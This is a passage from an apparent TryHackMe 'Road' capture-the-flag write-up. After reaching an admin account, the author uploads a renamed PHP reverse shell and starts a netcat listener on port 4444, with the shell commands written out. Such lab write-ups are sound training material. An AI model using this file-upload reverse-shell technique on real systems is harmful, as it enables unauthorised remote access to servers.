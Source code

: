 I now have access to the admin account!

![admindashboard](/assets/images/road/admindashboard.png)

### Initial Access

Now I have access to the admin account, I should be able to upload a file. The site is using PHP so I tried uploading a php reverse shell. I copied a PHP reverse shell to my directory and edited the IP and port.

```highlight
└──╼ $cp /usr/share/webshells/php/php-reverse-shell.php .
┌─[daz@parrotos]─[~/Documents/TryHackMe/Road]
└──╼ $mv php-reverse-shell.php shell.php
```

I then uploaded the file and started a listener using the command '```nc -nvlp 4444```'.

![upload](/assets/images/road/upload.gif)
